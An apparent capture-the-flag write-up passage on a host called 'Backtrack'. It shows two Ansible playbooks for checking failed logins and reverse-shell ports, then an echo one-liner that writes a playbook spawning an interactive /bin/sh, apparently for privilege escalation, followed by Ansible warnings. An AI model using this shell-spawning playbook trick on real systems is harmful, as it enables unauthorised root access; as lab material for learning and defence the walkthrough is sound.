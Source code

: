 <h3>failed_login.yml</h3>

```bash
tomcat@Backtrack:/opt/test_playbooks$ cat failed_login.yml
---
- name: Check for Failed Login Attempts
  hosts: localhost

  tasks:
    - name: Search for failed login attempts
      command: grep "Failed password" /var/log/auth.log
      register: failed_login_attempts
      ignore_errors: yes

    - name: Report failed login attempts
      debug:
        var: failed_login_attempts.stdout_lines
```

<h3>suspicious_ports.yml</h3>

```bash
tomcat@Backtrack:/opt/test_playbooks$ cat suspicious_ports.yml
---
- name: Check for Suspicious Open Ports on Localhost
  hosts: localhost
  gather_facts: no

  tasks:
    - name: List open ports
      command: "netstat -tuln"
      register: open_ports

    - name: Check and report suspicious open ports
      debug:
        msg: "Suspicious port open: {{ item }}"
      with_items:
        - '9001'
        - '1337'
        - '4444'
        - '6666'
        - '6969'
        - '5555'
        - '31337'
        - '4141'
        - '9000'
      when: "'0.0.0.0:{{ item }}' in open_ports.stdout"
```

```bash
tomcat@Backtrack:/tmp$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > shell.yml
```

```bash
tomcat@Backtrack:/tmp$ ls
...
shell.yml
...
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-